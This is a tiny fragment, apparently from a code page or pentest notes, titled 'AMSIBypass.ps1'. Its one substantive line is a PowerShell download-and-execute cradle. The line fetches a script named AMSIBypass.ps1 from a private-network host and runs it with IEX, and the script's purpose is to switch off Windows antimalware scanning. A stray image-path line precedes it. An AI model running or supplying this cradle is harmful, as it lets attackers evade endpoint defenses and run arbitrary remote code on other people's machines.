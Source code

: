 ## AMSIBypass.ps1
```powershell
(new-object net.webclient).downloadstring("http://192.168.49.89/AMSIBypass.ps1") | IEX
```